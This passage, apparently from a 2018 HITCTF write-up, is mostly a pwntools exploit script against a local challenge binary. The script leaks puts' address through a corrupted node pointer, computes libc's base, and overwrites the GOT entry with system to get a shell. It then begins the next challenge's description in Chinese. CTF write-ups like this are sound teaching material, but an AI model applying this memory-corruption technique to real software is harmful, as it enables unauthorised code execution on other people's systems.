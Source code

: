 ```python
from pwn import *

read_got = 0x0804A010
puts_got = 0x0804A024

puts  = 0x0005FCA0 
system = 0x0003ADA0 

p = remote("127.0.0.1",40003)

def add(value,data,flag=0):
	p.recvuntil("please input your choice:")
	p.sendline("1")
	p.recvuntil("Value:")
	p.sendline(str(value))
	p.recvuntil("Data:")
	if not flag:
		p.send(data)

def edit(OldValue,NewValue,NewData):
	p.recvuntil("please input your choice:")
	p.sendline("2")
	p.recvuntil("Node's value:")
	p.sendline(str(OldValue))
	p.recvuntil("New value:")
	p.sendline(str(NewValue))
	p.recvuntil("New data:")
	p.send(NewData)

def quit():
	p.recvuntil("please input your choice:")
	p.sendline("4")


for i in range(0,100):
	print i
	if i > 9:
		add(i,str(i),1)
	else:
		add(i,str(i))

edit(0,0,"/bin/sh\x00" + 'a'*0x28 + p32(puts_got))
p.recvuntil("please input your choice:")

p.sendline("3")
p.recvuntil("/bin/sh")
p.recvuntil("Value:")
puts_addr = int(p.recvline())
print hex(puts_addr)

libc_base = puts_addr - puts
system_addr = libc_base + system

edit(puts_addr,system_addr,"0")
p.sendline("3")
p.interactive()
```
## <span id="5">babynote(400)</span>
很常见的菜单程序，提供了添加、编辑、打印和删除note的功能，note的结构体如下所：
![](https://github.com/7Hxz233/2018-HITCTF-Challenges/blob/master/pwn/pwn400_babynote/imgaes/1.png?raw=true)
